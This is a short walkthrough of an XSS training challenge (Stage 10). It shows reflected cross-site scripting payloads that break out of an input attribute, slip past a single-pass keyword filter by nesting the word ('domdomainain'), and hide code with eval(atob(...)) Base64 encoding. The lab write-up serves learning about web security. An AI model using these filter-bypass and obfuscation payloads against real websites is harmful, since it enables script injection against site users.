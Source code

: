 # **XSS Challenges Stage 10**

Insert Stage 2 payload again.

`"><script>alert(document.domain);</script><a style="`

Then you will see this in source code.

```
<hr class=red>No results for your Query. Try again: <input type="text" name="p1" size="50" value=""><script>alert(document.);</script><a style=""> 
```

The code `domain` is miss. It means the whole word has been replaced.

Here's come up a common trick. This trick can pass the replaceing technism which just check for once.

Use the word which will be replaced to seperate the word itself.

Like `domain` becomes `domdomainain`.

Let's insert our new payload:

`"><script>alert(document.domdomainain);</script><a style="`

![](https://i.imgur.com/GDn9607.png)

**※Here's another method more technical.**

With this post, Stack Overflow question [Base64 encoding and decoding in client-side Javascript](http://stackoverflow.com/q/2820249/595990) we find that `atob()` can use to decode Base64 strings(`btoa()` to encode).

After decode, it's still a string, to become a line of Javascript code, you need [eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval).

We simply encode the `alert(document.domain);` and put it into `<script>` after wrap up by `eval()` and `atob()` .

```
"><script>eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='));</script>
```


